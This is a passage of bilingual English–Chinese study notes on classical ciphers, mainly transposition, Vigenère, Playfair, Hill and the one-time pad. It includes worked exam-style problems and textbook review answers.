For any plaintext of the same length there is a key (\(k=c-p\)) that maps the ciphertext to it. An exhaustive search therefore yields every plausible message and no way to choose among them. For example, one ciphertext decrypts to "mr mustard with the candlestick in the hall" under one key and to "miss scarlet with the knife in the library" under another. The pad is the only cipher with perfect secrecy（完善保密）. Its security rests entirely on the randomness of the key.对于任何同样长度的明文，总有一个密钥（\(k=c-p\)）能把密文映射为它。因此穷举搜索会得到所有合理的消息，却没有办法从中选择。例如，同一段密文在一个密钥下解密为 "mr mustard with the candlestick in the hall"，在另一个密钥下解密为 "miss scarlet with the knife in the library"。一次一密是唯一具有完善保密性的密码。它的安全性完全取决于密钥的随机性。
Two practical drawbacks: generating large quantities of truly random key, and distributing and protecting a key as long as every message. The pad is used only on low-bandwidth channels that need very high security.两个实际缺点：一是要生成大量真正随机的密钥，二是要分发和保护与每条消息等长的密钥。一次一密只用于对安全性要求极高、带宽较低的信道。
Practice练习
Q1. (Trace) Encrypt "attack at dawn" with the Vigenère keyword LEMON, then show how to decrypt.Q1. （手工演算）用维吉尼亚密码的关键词 LEMON 加密 "attack at dawn"，然后说明如何解密。
Answer
Repeat the key letters LEMON = 11, 4, 12, 14, 13 along the plaintext: LEMONLEMONLE. a+11 = L; t+4 = 23 = X; t+12 = 31 ≡ 5 = F; a+14 = O; c+13 = 15 = P; k+11 = 21 = V; a+4 = E; t+12 = F; d+14 = 17 = R; a+13 = N; w+11 = 33 ≡ 7 = H; n+4 = 17 = R. Ciphertext: LXFOPVEFRNHR. Decryption subtracts the same key letters mod 26, for example X − E = 23 − 4 = 19 = t.沿明文重复关键词字母 LEMON = 11、4、12、14、13：LEMONLEMONLE。a+11 = L；t+4 = 23 = X；t+12 = 31 ≡ 5 = F；a+14 = O；c+13 = 15 = P；k+11 = 21 = V；a+4 = E；t+12 = F；d+14 = 17 = R；a+13 = N；w+11 = 33 ≡ 7 = H；n+4 = 17 = R。密文：LXFOPVEFRNHR。解密时模 26 减去对应的密钥字母，例如 X − E = 23 − 4 = 19 = t。
Q2. (Kasiski) In a Vigenère ciphertext the trigram QRX occurs at positions 5 and 35, and MBK at positions 12 and 57. Which keyword lengths are plausible, and what is the next step?Q2. （卡西斯基检验）在一段维吉尼亚密文中，三字母组 QRX 出现在位置 5 与 35，MBK 出现在位置 12 与 57。哪些关键词长度是合理的？下一步是什么？
Answer
The distances are 30 and 45. For genuine repeats the keyword length \(m\) divides both, so \(m\) divides \(\gcd(30,45)=15\) and \(m\in\{3,5,15\}\) (\(m=1\) would be monoalphabetic). Test the candidates, for example with further repeats or the index of coincidence. Then write the ciphertext in \(m\) columns (every \(m\)-th letter), treat each column as a Caesar cipher and use frequency analysis to find each key letter.两个距离分别为 30 与 45。对于真正的重复，关键词长度 \(m\) 能同时整除两者，因此 \(m\) 整除 \(\gcd(30,45)=15\) 与 \(m\in\{3,5,15\}\)（\(m=1\) 将对应单表代换）。对候选长度进行检验，例如利用更多重复或重合指数。然后将密文写成 \(m\) 列（每隔第 \(m\) 个字母取一个），把每一列视为凯撒密码，并用频率分析求出每个密钥字母。
Q3. (Calculation) A one-time pad uses the key stream 9 0 1 7 23 15 21 14 11 11 2 8 9 (shift of each letter). (a) Encrypt "sendmoremoney". (b) Find a key stream that turns this ciphertext into "cashnotneeded". What does this show? (c) The same key stream also encrypts "cashnotneeded" to LATOKDOBPPFMM. Show that subtracting the two ciphertexts gives the difference of the plaintexts, and recover "send" from the guess "cash".Q3. （计算）一次一密使用的密钥流为 9 0 1 7 23 15 21 14 11 11 2 8 9（即每个字母的移位）。(a) 加密 "sendmoremoney"。(b) 求一个密钥流，使该密文变为 "cashnotneeded"。这说明了什么？(c) 同一密钥流也将 "cashnotneeded" 加密为 LATOKDOBPPFMM。证明两个密文相减得到两个明文的差，并由猜测的 "cash" 恢复 "send"。
Answer
(a) s+9 = 27 ≡ 1 = B; e+0 = E; n+1 = O; d+7 = K; m+23 = 35 ≡ 9 = J; o+15 = 29 ≡ 3 = D; r+21 = 38 ≡ 12 = M; e+14 = S; m+11 = X; o+11 = Z; n+2 = P; e+8 = M; y+9 = 33 ≡ 7 = H. Ciphertext: BEOKJDMSXZPMH. (b) \(k=c-p \bmod 26\) letter by letter gives 25 4 22 3 22 15 19 5 19 21 12 8 4. Every plaintext of the same length has such a key, so the ciphertext alone cannot tell which message was sent. (c) \(c_1-c_2\equiv(p_1+k)-(p_2+k)=p_1-p_2\): the key cancels. The differences begin 16 4 21 22; adding the guessed "cash" = 2 0 18 7 gives 18, 4, 39 ≡ 13, 29 ≡ 3, which is s e n d. A pad must never be reused.(a) s+9 = 27 ≡ 1 = B；e+0 = E；n+1 = O；d+7 = K；m+23 = 35 ≡ 9 = J；o+15 = 29 ≡ 3 = D；r+21 = 38 ≡ 12 = M；e+14 = S；m+11 = X；o+11 = Z；n+2 = P；e+8 = M；y+9 = 33 ≡ 7 = H。密文：BEOKJDMSXZPMH。(b) \(k=c-p \bmod 26\) 逐字母给出 25 4 22 3 22 15 19 5 19 21 12 8 4。对于任何等长明文，都存在这样的密钥，因此仅凭密文无法判断发送的是哪条消息。(c) \(c_1-c_2\equiv(p_1+k)-(p_2+k)=p_1-p_2\)：密钥相互抵消。差值以 16 4 21 22 开头；加上猜测的 "cash" = 2 0 18 7，得到 18、4、39 ≡ 13、29 ≡ 3，即 s e n d。一次一密绝不能重复使用。
思路：重复使用密钥，两段密文相减就消去了密钥。
Transposition ciphers and comparison ★★置换密码与比较
Goal. Encrypt and decrypt with the rail fence and the columnar transposition, recognise a transposition from its letter frequencies, and compare the classical ciphers.目标。 用栅栏密码和列置换进行加密和解密，根据字母频率识别置换密码，并比较经典密码。
Step 1: rail fence第 1 步：栅栏密码
In words: rail fence = write the message in a zigzag over several rows and read it off row by row.用文字表述：栅栏 = 把消息按锯齿形写在若干行中，然后逐行读出。
A transposition cipher（换位密码）permutes the plaintext letters instead of replacing them. In the rail fence（栅栏密码）cipher the plaintext is written as diagonals over a number of rows, the depth. Depth 2 for "meet me after the toga party":换位密码对明文字母进行置换，而不是替换。在栅栏密码中，明文沿对角线写在若干行中，行数称为深度。对 "meet me after the toga party" 取深度为 2：
m e m a t r h t g p r y
e t e f e t e o a a t
Reading the rows gives MEMATRHTGPRYETEFETEOAAT. Such a cipher is trivial to cryptanalyse.逐行读出得到 MEMATRHTGPRYETEFETEOAAT。这种密码非常容易破解。
Step 2: columnar transposition第 2 步：列置换
In words: columnar = write the message row by row under a key and read the columns in the order of the key numbers.用文字表述：列置换 = 按行把消息写在一个关键字下方，然后按关键字数字的顺序逐列读出。
In columnar transposition（列换位）the message is written row by row in a rectangle with \(m\) columns. It is read off column by column in the order given by the key. For the key 4 3 1 2 5 6 7:在列置换中，消息按行写入一个有 \(m\) 列的矩形，然后按密钥给定的顺序逐列读出。对于密钥 4 3 1 2 5 6 7：
Key: 4 3 1 2 5 6 7
Plaintext: a t t a c k p
o s t p o n e
d u n t i l t
w o a m x y z
Ciphertext: TTNAAPTMTSUOAODWCOIXKNLYPETZ
Start with the column labelled 1 (the third), then label 2 (the fourth), then the second, first, fifth, sixth and seventh columns. To decrypt, cut the ciphertext into \(m\) equal pieces, write piece \(j\) into the column labelled \(j\) and read the rows. A short last row is filled with null letters (here x, y, z). The key space is \(m!\) column orders, so \(7!=5040\).先读标号为 1 的列（第三列），然后是标号为 2 的列（第四列），再依次是第二、第一、第五、第六和第七列。解密时，先把密文切成 \(m\) 段等长的片段，把第 \(j\) 段写入标号为 \(j\) 的列，然后按行读出。最后一行不满时，用空字母（这里是 x、y、z）补齐。列的排列方式有 \(m!\) 种，因此密钥数为 \(7!=5040\)。
A pure transposition has the same letter frequencies as the plaintext, which identifies it. A substitution changes them. The attack on a columnar transposition lays the ciphertext in a matrix and rearranges the columns, guided by digram and trigram frequencies.纯置换的字母频率与明文相同，据此就能识别出它。代换则会改变频率。针对列置换的攻击，是把密文排成矩阵，然后依据双字母组和三字母组的频率重排各列。
A double transposition（双重换位）repeats the process, here with the same key. The result NSCYAUOPTTWLTMDNAOIEPAXTTOKZ is a far less structured permutation of the plaintext than one pass gives, so it is much harder to reconstruct. Combining substitution and transposition gives product ciphers, the ancestors of DES and AES (Sections 4.3 and 6.1).双重换位重复上述过程，这里使用同一个密钥。结果 NSCYAUOPTTWLTMDNAOIEPAXTTOKZ 对明文的置换比一次置换的结构性弱得多，因此重建要难得多。把代换和置换结合起来，就得到乘积密码，它们是 DES 和 AES 的前身（见第 4.3 节和第 6.1 节）。
Step 3: comparison of the classical ciphers第 3 步：经典密码的比较
| Cipher密码 | Keys密钥数 | Structure that survives保留的结构 | Attack攻击 |
|---|---|---|---|
| Caesar凯撒密码 | 25 | everything全部结构 | try all keys穷举全部密钥 |
| Monoalphabetic单表代换 | \(26!\) | letter and digram frequencies字母与双字母组频率 | frequency analysis频率分析 |
| PlayfairPlayfair 密码 | \(25!\) | digram frequencies双字母组频率 | digram statistics, a few hundred letters双字母组统计，几百个字母 |
| Hill (\(m\times m\)) | 157,248 for \(m=2\) | linearity线性 | known plaintext, \(K=X^{-1}Y\) |
| Vigenère (key length \(m\)) | \(26^m\) | period \(m\) | Kasiski, then frequency analysis per column卡西斯基检验，然后逐列频率分析 |
| One-time pad (length \(L\)) | \(26^L\) | none无 | none (perfect secrecy)无（完善保密） |
| Transposition置换密码 | \(m!\) | letter frequencies字母频率 | rearrange columns using digram statistics利用双字母组统计重排各列 |
Practice练习
Q1. (Trace) Encrypt "we are discovered flee at once" with a rail fence of depth 3 (zigzag).Q1. （手工演算）用深度为 3 的栅栏密码（之字形）加密 "we are discovered flee at once"。
Answer
Write the letters in a zigzag over three rows (down 1-2-3, then up 2-1, and so on). Row 1 holds letters 1, 5, 9, … = WECRLTE; row 2 holds letters 2, 4, 6, … = ERDSOEEFEAOC; row 3 holds letters 3, 7, 11, … = AIVDEN. Reading the rows gives WECRLTEERDSOEEFEAOCAIVDEN.将字母按三行之字形写出（依次向下经过第 1、2、3 行，然后向上经过第 2、1 行，依此类推）。第 1 行为第 1、5、9、……个字母 = WECRLTE；第 2 行为第 2、4、6、……个字母 = ERDSOEEFEAOC；第 3 行为第 3、7、11、……个字母 = AIVDEN。逐行读出得到 WECRLTEERDSOEEFEAOCAIVDEN。
Q2. (Trace) (a) Encrypt "send more troops at dawn" with a columnar transposition of key 3 1 4 2. (b) Decrypt LEDOHTREDBGWOHIN, made with key 2 4 1 3.Q2. （手工演算）(a) 用密钥 3 1 4 2 的列换位加密 "send more troops at dawn"。(b) 解密 LEDOHTREDBGWOHIN，该密文是用密钥 2 4 1 3 生成的。
Answer
(a) Rows of four: send / more / troo / psat / dawn. Column 2 (label 1) gives EORSA, column 4 (label 2) DEOTN, column 1 (label 3) SMTPD, column 3 (label 4) NROAW. Ciphertext: EORSADEOTNSMTPDNROAW. (b) 16 letters in 4 columns make 4 rows. Cut into LEDO HTRE DBGW OHIN. Piece 1 goes into the column labelled 1 (column 3), piece 2 into column 1, piece 3 into column 4, piece 4 into column 2. The rows read hold / theb / ridg / enow: "hold the bridge now".(a) 每行四个字母：send / more / troo / psat / dawn。第 2 列（标号 1）得到 EORSA，第 4 列（标号 2）得到 DEOTN，第 1 列（标号 3）得到 SMTPD，第 3 列（标号 4）得到 NROAW。密文：EORSADEOTNSMTPDNROAW。(b) 16 个字母排为 4 列，共 4 行。切分为 LEDO HTRE DBGW OHIN。第 1 段放入标号为 1 的列（第 3 列），第 2 段放入第 1 列，第 3 段放入第 4 列，第 4 段放入第 2 列。按行读出为 hold / theb / ridg / enow："hold the bridge now"。
Terms to recognise ★需要认识的术语
| Term术语 | What to know要知道什么 |
|---|---|
| Chosen text选择文本 | an attack in which the analyst has both chosen plaintexts and chosen ciphertexts, with their results分析者同时拥有所选的明文和所选的密文，以及它们的结果的攻击 |
| Homophone同音替换 | one plaintext letter with several cipher symbols, in proportion to its frequency; digram patterns survive一个明文字母对应多个密文符号，数量与它的频率成正比；双字母组的模式仍然保留 |
| Autokey自动密钥 | keyword followed by the plaintext as a running key; no repeats, but statistics leak关键字后接明文作为运行密钥；没有重复，但统计信息会泄露 |
| Vernam cipherVernam 密码 | bitwise XOR of plaintext and key; with a short repeating key it is breakable明文与密钥按位异或；若密钥短且重复，则可被破解 |
| Perfect secrecy完善保密 | the ciphertext is independent of the plaintext; the one-time pad has it密文与明文相互独立；一次一密具有这一性质 |
| Index of coincidence重合指数 | chance that two letters are equal: about 0.066 for English, 0.038 for random letters两个字母相等的概率：英文约为 0.066，随机字母约为 0.038 |
| Product system乘积系统 | a cipher that chains several substitution and transposition stages串联多个代换和置换阶段的密码 |
| Null letters空字母 | filler letters such as x, y, z that complete the last row of a columnar transposition用来补齐列置换最后一行的填充字母，例如 x、y、z |
| Double transposition双重换位 | the transposition applied twice, which is much less regular than one pass连续做两次置换，比一次置换的规律性更弱 |
| Steganography隐写术 | hiding the existence of a message, for example in image bits; useless once the method is found unless the message is also encrypted隐藏消息的存在，例如藏在图像比特中；一旦方法被发现就没有用，除非消息本身也经过加密 |
Exam-style questions考试题型练习
Q1. (Concepts and calculation, 12 marks) (a) List the five ingredients of a symmetric cipher, write the encryption and decryption equations and state which of them the opponent is assumed to know (4 marks). (b) A system uses a 112-bit key and an attacker tests \(10^{13}\) keys per second. Find the average brute-force time in years and compare it with the age of the universe, about \(1.4\times10^{10}\) years (4 marks). (c) Define unconditionally secure and computationally secure; say which holds for the system in (b) and which for the one-time pad (4 marks).Q1. （概念与计算，12 分）(a) 列出对称密码的五个要素，写出加密与解密方程，并说明假定对手已知其中哪些要素（4 分）。(b) 某系统使用 112-bit 密钥，攻击者每秒测试 \(10^{13}\) 个密钥。求穷举攻击的平均耗时（以年计），并将其与宇宙年龄（约 \(1.4\times10^{10}\) 年）相比较（4 分）。(c) 定义无条件安全与计算上安全，说明 (b) 中的系统和一次一密分别满足哪一种（4 分）。
Answer
(a) The ingredients are plaintext \(X\), encryption algorithm, secret key \(K\), ciphertext \(Y\) and decryption algorithm. \(Y=E(K,X)\) and \(X=D(K,Y)\). The opponent sees \(Y\) and is assumed to know \(E\) and \(D\), but not \(K\) or \(X\).(a) 其要素为：明文 \(X\)、加密算法、密钥 \(K\)、密文 \(Y\) 和解密算法。\(Y=E(K,X)\) 和 \(X=D(K,Y)\)。对手看到的是 \(Y\)，并假定其知道 \(E\) 和 \(D\)，但不知道 \(K\) 或 \(X\)。
(b) On average half the keys are tried: \(2^{111}\approx2.6\times10^{33}\). Time \(=2.6\times10^{33}/10^{13}=2.6\times10^{20}\) s; dividing by \(3.16\times10^{7}\) s per year gives \(8.2\times10^{12}\) years, about 600 times the age of the universe. Brute force is infeasible.(b) 平均而言要尝试一半的密钥：\(2^{111}\approx2.6\times10^{33}\)。耗时 \(=2.6\times10^{33}/10^{13}=2.6\times10^{20}\) s；除以每年 \(3.16\times10^{7}\) s，得 \(8.2\times10^{12}\) 年，约为宇宙年龄的 600 倍。穷举攻击不可行。
(c) Unconditionally secure: the ciphertext does not contain enough information to determine the plaintext uniquely, however much ciphertext and time the opponent has. Computationally secure: the cost of breaking exceeds the value of the information, or the time exceeds its useful lifetime. The system in (b) is only computationally secure; the one-time pad is unconditionally secure.(c) 无条件安全：无论对手拥有多少密文和多少时间，密文都不包含足以唯一确定明文的信息。计算上安全：破译的代价超过信息的价值，或破译所需时间超过信息的有效期。(b) 中的系统仅是计算上安全的；一次一密则是无条件安全的。
思路：平均试一半密钥，所以用 2 的 n−1 次方除以速度。
Q2. (Monoalphabetic and affine ciphers, 12 marks) (a) How many keys does a general monoalphabetic substitution cipher over 26 letters have, and why does brute force fail (3 marks)? (b) In a 120-letter monoalphabetic ciphertext, P and Z are the most frequent letters (13.3% and 11.7%), the digram ZW occurs three times and the string ZWSZ occurs once. Deduce four plaintext letters and explain each step (5 marks). (c) A different text was enciphered with \(C=(ap+b)\bmod 26\). The most frequent ciphertext letters are R, then I. Assuming they stand for e and t, find \(a\), \(b\) and the decryption function (4 marks).Q2. （单表代换与仿射密码，12 分）(a) 26 个字母的一般单表代换密码有多少个密钥？穷举攻击为何失效（3 分）？(b) 在一段 120 个字母的单表密文中，P 和 Z 是最频繁的字母（13.3% 与 11.7%），双字母组 ZW 出现三次，字符串 ZWSZ 出现一次。推出四个明文字母，并解释每一步（5 分）。(c) 另一段文本使用 \(C=(ap+b)\bmod 26\) 加密。出现最频繁的密文字母是 R，其次是 I。假设它们分别代表 e 和 t，求 \(a\)、\(b\) 以及解密函数（4 分）。
Answer
(a) \(26!\approx4.0\times10^{26}\approx2^{88}\) keys. Searching half of them at \(10^{9}\) keys/s takes about \(6.4\times10^{9}\) years.(a) \(26!\approx4.0\times10^{26}\approx2^{88}\) 个密钥。以每秒 \(10^{9}\) keys/s 搜索其中一半，约需 \(6.4\times10^{9}\) 年。
(b) P and Z are the most frequent, so they stand for e and t in some order. ZW is a frequent digram; if Z = t it is th, the commonest English digram, so W = h. Then ZWP reads "the", the commonest trigram, so P = e, consistent with P being the most frequent letter. ZWSZ has the form th_t, so S = a ("that"). Result: P = e, Z = t, W = h, S = a.(b) P 和 Z 最为频繁，因此它们分别代表 e 和 t（顺序未定）。ZW 是一个常见的双字母组；若 Z = t，则它是 th，即英文中最常见的双字母组，因此 W = h。于是 ZWP 读作 "the"，它是最常见的三字母组，因此 P = e，这与 P 为最频繁字母的事实相符。ZWSZ 的形式为 th_t，因此 S = a（"that"）。结果：P = e，Z = t，W = h，S = a。
(c) e = 4, R = 17, t = 19, I = 8, so \(4a+b\equiv17\) and \(19a+b\equiv8\). Subtracting: \(15a\equiv-9\equiv17\). Since \(15^{-1}=7\), \(a\equiv17\cdot7=119\equiv15\). Then \(b\equiv17-4\cdot15=-43\equiv9\). Check: \(\gcd(15,26)=1\) and \(15\cdot19+9=294\equiv8\). Decryption: \(p=7(C-9)\bmod 26\).(c) e = 4，R = 17，t = 19，I = 8，因此 \(4a+b\equiv17\) 且 \(19a+b\equiv8\)。两式相减得 \(15a\equiv-9\equiv17\)。由于 \(15^{-1}=7\)，\(a\equiv17\cdot7=119\equiv15\)。于是 \(b\equiv17-4\cdot15=-43\equiv9\)。验证：\(\gcd(15,26)=1\) 且 \(15\cdot19+9=294\equiv8\)。解密函数为 \(p=7(C-9)\bmod 26\)。
思路：先用最高频字母假设 e、t，再解二元同余方程。
Q3. (Playfair and Hill, 16 marks) (a) Build the Playfair matrix for the keyword PLAYFAIR EXAMPLE and encrypt "hide the gold" (5 marks). (b) Show that the Hill key \(K=\begin{pmatrix}9&4\\5&7\end{pmatrix}\) is valid, find \(K^{-1}\) and encrypt "attack" (5 marks). (c) An eavesdropper knows that the plaintext starts with "atta" and sees the ciphertext RDPY. Recover \(K\) (4 marks). (d) Why does Hill hide single-letter frequencies yet fall to a known-plaintext attack (2 marks)?Q3. （Playfair 密码与 Hill 密码，16 分）(a) 为关键词 PLAYFAIR EXAMPLE 构造 Playfair 矩阵，并加密 "hide the gold"（5 分）。(b) 证明 Hill 密钥 \(K=\begin{pmatrix}9&4\\5&7\end{pmatrix}\) 是有效的，求出 \(K^{-1}\)，并加密 "attack"（5 分）。(c) 窃听者知道明文以 "atta" 开头，并看到密文 RDPY。求出 \(K\)（4 分）。(d) 为什么 Hill 密码能隐藏单字母频率，却仍会被已知明文攻击攻破（2 分）？
Answer
(a) Without repeated letters the keyword is PLAYFIREXM; the matrix rows are PLAYF, IREXM, BCDGH, KNOQS, TUVWZ. Pairs: hi de th eg ol dx. hi: rectangle → BM. de: same column → OD. th: rectangle → ZB. eg: rectangle → XD. ol: rectangle → NA. dx: rectangle → GE. Ciphertext: BMODZBXDNAGE.(a) 去掉重复字母后，关键词为 PLAYFIREXM；矩阵各行为 PLAYF、IREXM、BCDGH、KNOQS、TUVWZ。分组：hi de th eg ol dx。hi：矩形 → BM。de：同列 → OD。th：矩形 → ZB。eg：矩形 → XD。ol：矩形 → NA。dx：矩形 → GE。密文：BMODZBXDNAGE。
(b) \(\det K=63-20=43\equiv17\) and \(\gcd(17,26)=1\), so \(K\) is valid. \(17^{-1}=23\) because \(17\cdot23=391\equiv1\). \(K^{-1}=23\begin{pmatrix}7&-4\\-5&9\end{pmatrix}=\begin{pmatrix}161&-92\\-115&207\end{pmatrix}\equiv\begin{pmatrix}5&12\\15&25\end{pmatrix}\). Blocks at, ta, ck \(=(0\ 19),(19\ 0),(2\ 10)\): \((0\ 19)K=(95,133)\equiv(17,3)\) = RD; \((19\ 0)K=(171,76)\equiv(15,24)\) = PY; \((2\ 10)K=(68,78)\equiv(16,0)\) = QA. Ciphertext: RDPYQA.(b) \(\det K=63-20=43\equiv17\) 与 \(\gcd(17,26)=1\)，因此 \(K\) 是有效的。\(17^{-1}=23\)，因为 \(17\cdot23=391\equiv1\)。\(K^{-1}=23\begin{pmatrix}7&-4\\-5&9\end{pmatrix}=\begin{pmatrix}161&-92\\-115&207\end{pmatrix}\equiv\begin{pmatrix}5&12\\15&25\end{pmatrix}\)。分组 at、ta、ck \(=(0\ 19),(19\ 0),(2\ 10)\)：\((0\ 19)K=(95,133)\equiv(17,3)\) = RD；\((19\ 0)K=(171,76)\equiv(15,24)\) = PY；\((2\ 10)K=(68,78)\equiv(16,0)\) = QA。密文：RDPYQA。
(c) \(X=\begin{pmatrix}0&19\\19&0\end{pmatrix}\) and \(Y=\begin{pmatrix}17&3\\15&24\end{pmatrix}\). \(\det X=-361\equiv3\) and \(3^{-1}=9\), so \(X^{-1}=9\begin{pmatrix}0&-19\\-19&0\end{pmatrix}\equiv\begin{pmatrix}0&11\\11&0\end{pmatrix}\). \(K=X^{-1}Y=\begin{pmatrix}165&264\\187&33\end{pmatrix}\equiv\begin{pmatrix}9&4\\5&7\end{pmatrix}\).(c) \(X=\begin{pmatrix}0&19\\19&0\end{pmatrix}\) 与 \(Y=\begin{pmatrix}17&3\\15&24\end{pmatrix}\)。\(\det X=-361\equiv3\) 与 \(3^{-1}=9\)，因此 \(X^{-1}=9\begin{pmatrix}0&-19\\-19&0\end{pmatrix}\equiv\begin{pmatrix}0&11\\11&0\end{pmatrix}\)。\(K=X^{-1}Y=\begin{pmatrix}165&264\\187&33\end{pmatrix}\equiv\begin{pmatrix}9&4\\5&7\end{pmatrix}\)。
(d) Each ciphertext letter depends on \(m\) plaintext letters, so single-letter (and, for \(m\ge2\), digram) frequencies are blurred. But encryption is linear, \(Y=XK\), so \(m\) known blocks give \(m\) linear equations that are solved by inverting \(X\) mod 26.(d) 每个密文字母取决于 \(m\) 个明文字母，因此单字母频率（对于 \(m\ge2\) 则还包括双字母组频率）会被模糊。但加密是线性的，\(Y=XK\)，因此 \(m\) 个已知分组可给出 \(m\) 个线性方程，通过对 \(X\) 模 26 求逆即可解出。
易错：矩阵取模要逐项做；先检查 gcd(det, 26) = 1。
Q4. (Vigenère, Kasiski and the one-time pad, 14 marks) (a) Encrypt "meet me at the bridge" with the Vigenère keyword CODE (4 marks). (b) Encrypt the same plaintext with the autokey system and the keyword CODE; explain why autokey helps and why it is still insecure (3 marks). (c) In a Vigenère ciphertext QRX occurs at positions 7 and 43, and MBK at positions 10 and 70. Estimate the keyword length and describe the next steps (4 marks). (d) State the conditions under which a one-time pad is unbreakable and its two practical drawbacks (3 marks).Q4. （维吉尼亚密码、卡西斯基检验与一次一密，14 分）(a) 用维吉尼亚密码关键词 CODE 加密 "meet me at the bridge"（4 分）。(b) 用自动密钥体制与关键词 CODE 加密同一明文；解释自动密钥为何有帮助，以及它为何仍然不安全（3 分）。(c) 在一段维吉尼亚密文中，QRX 出现在位置 7 与 43，MBK 出现在位置 10 与 70。估计关键词长度并描述后续步骤（4 分）。(d) 说明一次一密不可破解的条件，以及它的两个实际缺点（3 分）。
Answer
(a) Key letters CODE = 2, 14, 3, 4 repeated. m+2 = O; e+14 = S; e+3 = H; t+4 = X; m+2 = O; e+14 = S; a+3 = D; t+4 = X; t+2 = V; h+14 = V; e+3 = H; b+4 = F; r+2 = T; i+14 = W; d+3 = G; g+4 = K; e+2 = G. Ciphertext: OSHXOSDXVVHFTWGKG.(a) 密钥字母 CODE = 2、14、3、4 重复使用。m+2 = O；e+14 = S；e+3 = H；t+4 = X；m+2 = O；e+14 = S；a+3 = D；t+4 = X；t+2 = V；h+14 = V；e+3 = H；b+4 = F；r+2 = T；i+14 = W；d+3 = G；g+4 = K；e+2 = G。密文：OSHXOSDXVVHFTWGKG。
(b) The key stream is CODE followed by the plaintext: CODEMEETMEATTHEBR. The ciphertext is OSHXYIEMFLEUKPHHV. The key no longer repeats, so there are no periodic repeats for the Kasiski examination. But key and plaintext share the letter statistics of English, so frequent pairs such as e under e (probability about \(0.127^2\)) can still be exploited statistically.(b) 密钥流为 CODE 后接明文：CODEMEETMEATTHEBR。密文为 OSHXYIEMFLEUKPHHV。密钥不再重复，因此没有可供卡西斯基检验利用的周期性重复。但密钥与明文具有相同的英文字母统计特征，因此诸如以 e 加密 e 这类常见字母对（概率约为 \(0.127^2\)）仍可被统计利用。
(c) The distances are 36 and 60, and \(\gcd(36,60)=12\). The keyword length divides 12: \(m\in\{2,3,4,6,12\}\), with 12 the most likely. Next, test the candidates (further repeats or the index of coincidence), split the ciphertext into \(m\) columns, and solve each column as a Caesar cipher by frequency analysis.(c) 两个距离分别为 36 与 60，且 \(\gcd(36,60)=12\)。关键词长度整除 12：\(m\in\{2,3,4,6,12\}\)，其中 12 的可能性最大。接下来，检验候选长度（利用更多重复或重合指数），将密文分成 \(m\) 列，并通过频率分析把每一列当作凯撒密码来求解。
(d) The key must be truly random, at least as long as the message, and used once. The ciphertext is then independent of the plaintext and every plaintext of that length is equally likely (perfect secrecy). Drawbacks: producing large amounts of truly random key, and distributing and protecting a key as long as every message.(d) 密钥必须真正随机，长度至少与消息相同，并且只使用一次。此时密文与明文相互独立，等长的每个明文都同样可能（完善保密性）。缺点是：难以生成大量真正随机的密钥，以及要分发和保护与每条消息等长的密钥。
思路：重复片段间距取最大公约数得到密钥长度。
Q5. (Transposition and XOR, 10 marks) (a) Encrypt "send help to the camp now" with a columnar transposition of key 3 5 1 4 2 (4 marks). (b) How can a transposition cipher be recognised from its ciphertext, and why does a double transposition improve security (3 marks)? (c) Using the Vernam cipher, encrypt the character C (ASCII 01000011) with the key bits 10101100 and show the decryption (3 marks).Q5. （置换与异或，10 分）(a) 用密钥 3 5 1 4 2 的列换位加密 "send help to the camp now"（4 分）。(b) 如何从密文识别置换密码，以及为什么双重换位能提高安全性（3 分）？(c) 使用弗纳姆密码，以密钥比特 10101100 加密字符 C（ASCII 01000011），并给出解密过程（3 分）。
Answer
(a) Five columns, four rows: sendh / elpto / theca / mpnow. Read the column labelled 1 (column 3): NPEN; label 2 (column 5): HOAW; label 3 (column 1): SETM; label 4 (column 4): DTCO; label 5 (column 2): ELHP. Ciphertext: NPENHOAWSETMDTCOELHP.(a) 五列四行：sendh / elpto / theca / mpnow。依次读取标号为 1 的列（第 3 列）：NPEN；标号为 2 的列（第 5 列）：HOAW；标号为 3 的列（第 1 列）：SETM；标号为 4 的列（第 4 列）：DTCO；标号为 5 的列（第 2 列）：ELHP。密文：NPENHOAWSETMDTCOELHP。
(b) A transposition leaves the letters unchanged, so the ciphertext has the letter frequencies of the language (e, t, a most frequent), unlike a substitution. A second transposition composes two permutations into one with no simple structure, which is much harder to undo by rearranging columns.(b) 换位不改变字母本身，因此密文的字母频率与该语言相同（e、t、a 最为频繁），这与代换不同。第二次换位将两个置换复合为一个没有简单结构的置换，通过重排各列来还原要困难得多。
(c) \(01000011\oplus10101100=11101111\). Decryption: \(11101111\oplus10101100=01000011\), the character C, because XOR with the same key bits twice cancels.(c) \(01000011\oplus10101100=11101111\)。解密：\(11101111\oplus10101100=01000011\)，即字符 C，因为用相同的密钥比特异或两次会相互抵消。
思路：按密钥编号从小到大逐列读出。
Textbook exercises课后习题
Textbook exercises with answers: 21 questions教材习题及答案，共 21 题，点击展开
E1. (Review Question 3.1, Stallings; 2.3, Stallings & Brown) Describe the main requirements for the secure use of symmetric encryption.E1.（复习题 3.1，Stallings；2.3，Stallings & Brown）描述对称加密安全使用的主要要求。
Answer
Two requirements must hold.有两个要求必须同时满足。
- A strong encryption algorithm. An opponent who knows the algorithm and has a number of ciphertexts, even together with some plaintext–ciphertext pairs, must not be able to decrypt other ciphertexts or to discover the key.强加密算法。 攻击者即使知道算法，并拥有若干密文，甚至还有一些明文与密文对，也不能解密其他密文，也不能推出密钥。
- A secret key shared securely. Sender and receiver must obtain copies of the secret key in a secure fashion and must keep the key secure. If the key is discovered, all communication under it is readable.安全共享的秘密密钥。 发送方和接收方必须以安全的方式获得密钥的副本，并且必须妥善保管密钥。一旦密钥被泄露，用它加密的所有通信都可以被读取。
The algorithm itself does not need to be secret; only the key does. This is why the security of the system rests on key distribution and key protection.算法本身不必保密，只有密钥需要保密。这就是为什么系统的安全性取决于密钥的分发和保护。
思路：算法要强，密钥要安全地分发并保管；算法本身不必保密。
E2. (Review Question 3.2, Stallings; 20.2, Stallings & Brown) What are the two basic functions used in encryption algorithms?E2.（复习题 3.2，Stallings；20.2，Stallings & Brown）加密算法使用的两个基本函数是什么？
Answer
The two basic functions are substitution and transposition (permutation).两个基本函数是代换和置换（排列）。
- In substitution, each element of the plaintext (bit, letter, group of letters) is mapped into another element.在代换中，明文的每个元素（比特、字母或字母组）被映射为另一个元素。
- In transposition, the elements of the plaintext are rearranged.在置换中，明文的元素被重新排列。
The fundamental requirement is that no information is lost, so that every operation is reversible. Most systems, called product systems, apply several stages of substitution and transposition.基本要求是不丢失信息，因此每一步操作都必须可逆。大多数系统称为乘积系统，它们会应用多个代换和置换阶段。
思路：替换改变元素，置换改变位置，二者都必须可逆。
